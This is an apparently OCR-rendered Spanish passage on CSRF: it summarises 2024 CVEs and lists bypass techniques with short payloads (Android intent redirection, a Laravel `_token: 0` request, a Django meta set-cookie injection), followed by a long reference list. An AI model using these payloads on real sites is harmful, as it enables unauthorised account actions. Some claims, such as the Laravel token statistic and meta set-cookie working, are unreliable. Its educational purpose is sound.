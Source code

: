 CSRF que permite ejecución de JavaScript arbitrario en página de administración, llevando a cambios no autorizados de configuración de cuenta.

### CVE-2024-51489: Ampache Messaging System[^1]

Validación inadecuada de tokens CSRF permite a atacantes enviar mensajes a cualquier usuario, incluyendo administradores.

### CVE-2024-47828: Ampache Object Deletion[^4]

CSRF que permite eliminar objetos (playlists, smartlists) de otros usuarios mediante scripts maliciosos.

## Técnicas Modernas de Bypass 2024

### 1. Mobile Browser SameSite Bypass[^22]

Android browsers tenían una vulnerabilidad que permitía bypass via intent redirection:

```html
<script>
if (navigator.userAgent.includes('Android')) {
  location = 'intent://victima.com/sensitive_action#Intent;scheme=https;package=com.android.chrome;end';
}
</script>
```

### 2. Laravel CSRF Bypass[^8]

85% de tokens CSRF en Laravel comenzaban con letra o cero, permitiendo bypass:

```javascript
fetch('/api/delete', {
  method: 'POST',
  headers: {
    'Content-Type': 'application/json'
  },
  body: JSON.stringify({
    action: "delete",
    _token: 0  // Integer bypass
  })
});
```

### 3. Framework-Specific Bypasses

**Django CSRF Bypass:**

```html
<meta http-equiv="set-cookie" content="csrftoken=controlled; domain=victima.com">
```

**Rails Authenticity Token Bypass:**


[^1]: https://www.invicti.com/web-application-vulnerabilities/ampache-cross-site-request-forgery-csrf-vulnerability-cve-2024-51489
[^2]: https://learn.microsoft.com/en-us/aspnet/core/security/anti-request-forgery?view=aspnetcore-9.0
[^3]: https://www.incibe.es/en/incibe-cert/early-warning/vulnerabilities/cve-2024-56924
[^4]: https://www.invicti.com/web-application-vulnerabilities/ampache-cross-site-request-forgery-csrf-vulnerability-cve-2024-47828
[^5]: https://infosecwriteups.com/csrf-in-2025-solved-but-still-bypassable-942ca382ab77
[^6]: https://developer.mozilla.org/en-US/docs/Web/Security/Attacks/CSRF
[^7]: https://brightsec.com/blog/csrf-example/
[^8]: https://www.cobalt.io/blog/csrf-bypasses
[^9]: https://www.intigriti.com/researchers/blog/hacking-tools/csrf-a-complete-guide-to-exploiting-advanced-csrf-vulnerabilities
[^10]: https://www.linkedin.com/pulse/bypassing-unpredictable-csrf-tokens-muvhango-magatshavha-jl7lf
[^11]: https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions
[^12]: https://hazanasec.github.io/2023-07-30-Samesite-bypass-method-override.md/
[^13]: https://www.sidechannel.blog/en/http-method-override-what-it-is-and-how-a-pentester-can-use-it/
[^14]: https://osintteam.blog/web-security-academy-csrf-samesite-lax-bypass-via-cookie-refresh-775f4f6efdc2
[^15]: https://owasp.org/www-chapter-london/assets/slides/David_Johansson-Double_Defeat_of_Double-Submit_Cookie.pdf
[^16]: https://sallam.gitbook.io/sec-88/write-ups/exploiting-json-based-csrf-the-hidden-threat-in-profile-management
[^17]: https://bugbase.ai/blog/how-to-bypass-csrf-protection
[^18]: https://stackoverflow.com/questions/11008469/are-json-web-services-vulnerable-to-csrf-attacks
[^19]: https://labs.detectify.com/writeups/account-hijacking-using-dirty-dancing-in-sign-in-oauth-flows/
[^20]: https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html
[^21]: https://outpost24.com/blog/csrf-attacks-simplified-guide/
[^22]: https://www.certuscyber.com/insights/bypass-samesite-cookie/
[^23]: https://zuplo.com/learning-center/preventing-cross-site-request-forgery-in-apis
[^24]: https://www.stackhawk.com/blog/react-csrf-protection-guide-examples-and-how-to-enable-it/
[^25]: https://moldstud.com/articles/p-comparing-csrf-protection-methods-lumen-vs-other-frameworks
[^26]: https://www.incibe.es/index.php/en/incibe-cert/early-warning/vulnerabilities/cve-2024-52402
[^27]: https://portswigger.net/web-security/csrf
[^28]: https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-lax-bypass-via-method-override
[^29]: http://scielo.sld.cu/scielo.php?script=sci_abstract\&pid=S2306-24952024000700133\&lng=en\&nrm=iso
[^30]: https://learn.snyk.io/lesson/csrf-attack/
[^31]: https://stackoverflow.com/questions/79368322/how-to-bypass-samesite-cookie-restriction-in-microsoft-edge-during-local-develop
[^32]: https://sec.cloudapps.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-ise-csrf-y4ZUz5Rj
[^33]: https://www.imperva.com/learn/application-security/csrf-cross-site-request-forgery/
[^34]: https://www.youtube.com/watch?v=ucHEU1Z9DhU
[^35]: https://nvd.nist.gov/vuln/detail/CVE-2024-51484
[^36]: https://en.wikipedia.org/wiki/Cross-site_request_forgery
[^37]: https://vulnapi.cerberauth.com/docs/vulnerabilities/security-misconfiguration/http-method-allow-override
[^38]: https://www.linkedin.com/pulse/how-double-submit-cookie-prevent-csrf-viral-parmar-qzyqc
[^39]: https://www.youtube.com/watch?v=Jv-LXLID3VA
[^40]: https://www.webasha.com/blog/how-does-csrf-lead-to-account-takeover-real-world-example-and-exploit-chain-explained
[^41]: https://brightsec.com/blog/csrf-mitigation/
[^42]: https://github.com/obiba/opal/security/advisories/GHSA-27vw-29rq-c358
[^43]: https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-duplicated-in-cookie
[^44]: https://www.invicti.com/blog/web-security/protecting-website-using-anti-csrf-token/
[^45]: https://stackoverflow.com/questions/73031478/is-the-double-submit-cookie-pattern-really-safe
[^46]: https://www.wiz.io/academy/cross-site-request-forgery-csrf
[^47]: https://www.acceis.fr/csrf-get-samesite-concrete-attack/
[^48]: https://www.bitsight.com/blog/web-application-security-devops-anti-csrf-and-cookie-samesite-options
[^49]: https://heycoach.in/blog/cross-site-request-forgery-csrf-prevention-techniques/
[^50]: https://www.sciencedirect.com/science/article/pii/S2667295221000258
[^51]: https://www.incibe.es/en/incibe-cert/early-warning/vulnerabilities/cve-2024-22424
[^52]: https://infosecwriteups.com/how-i-exploited-a-hidden-csrf-vulnerability-and-how-you-can-prevent-it-d089ad23887d
[^53]: https://www.openwall.com/lists/oss-security/2024/11/16/2
